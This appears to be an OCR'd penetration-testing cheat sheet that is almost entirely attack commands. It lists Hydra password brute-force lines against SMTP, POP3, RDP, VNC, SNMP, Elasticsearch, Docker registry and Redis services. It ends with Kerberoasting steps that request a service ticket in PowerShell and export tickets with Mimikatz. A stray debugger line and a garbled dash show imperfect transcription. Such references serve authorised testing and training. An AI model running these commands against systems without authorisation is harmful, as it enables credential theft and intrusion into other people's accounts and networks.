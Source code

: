 # SMTP BRUTE
hydra -l rosborne -P pass.lst 10.0.0.1 smtp -V
hydra -l rosborne -P pass.lst -s 587 10.0.0.1 -S -v -V

# POP BRUTE
hydra -l rosborne -P pass.lst -f 10.0.0.1 pop3 -V
hydra -S -v -l rosborne -P pass.lst -s 995 -f 10.0.0.1 pop3 -V

# RDP BRUTE
hydra -V -f -L user.txt -P pass.lst rdp://10.0.0.1

# VNC BRUTE
hydra -P passwords.txt 10.0.0.1 vnc -V

# SNMP
hydra -P /usr/share/seclists/Discovery/SNMP/common-snmp-community-strings.txt server.osbornepro.com snmp

# ELASTICSEARCH BRUTE
hydra -L users.txt -P password.lst 10.0.0.1 -s 9200 http-get /

# DOCKER REGISTRY BRUTE
hydra -L users.txt  -P password.lst 10.0.0.1 -s 5000 https-get /v2/

# REDIS BRUTE
hydra –P pass.txt redis://10.0.0.1:6379

																	debugger eval code:1:62
# KERBEROASTING
# Request a service ticket using SPN name
Add-Type -AssemblyName System.IdentityModel
New-Object -TypeName System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList 'HTTP/spn-name.osbornepro.com'

# Use Mimikatz to download above commands generated service ticket to disk
kerberos::list /export
